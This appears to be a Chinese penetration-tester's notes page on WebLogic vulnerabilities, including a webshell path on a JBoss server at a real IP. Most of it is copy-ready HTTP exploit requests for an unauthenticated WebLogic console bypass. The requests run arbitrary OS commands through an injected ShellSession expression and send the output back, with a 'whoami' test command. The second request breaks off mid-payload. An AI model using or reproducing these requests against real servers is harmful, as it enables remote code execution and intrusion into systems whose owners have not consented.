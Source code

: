 
webshell<br />/home/jboss-lh/server/default/deploy/rmis.war/login.jsp<br />             ↓<br />[http://xxx/rmis/login.jsp](http://220.249.204.70:8090/rmis/login.jsp)
<a name="v0al4"></a>
## weblogic
CVE-2018-2894

ws_utc/config.do
<a name="IJEn7"></a>
### CVE-2021-2109
[https://www.o2oxy.cn/3019.html](https://www.o2oxy.cn/3019.html)<br />构造jndi回显

<a name="kZFdI"></a>
### cve 14772 未授权
```python
POST /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();') HTTP/1.1
Host: ip
cmd: whoami
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
```python
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: ip
cmd: whoami
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1258

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
```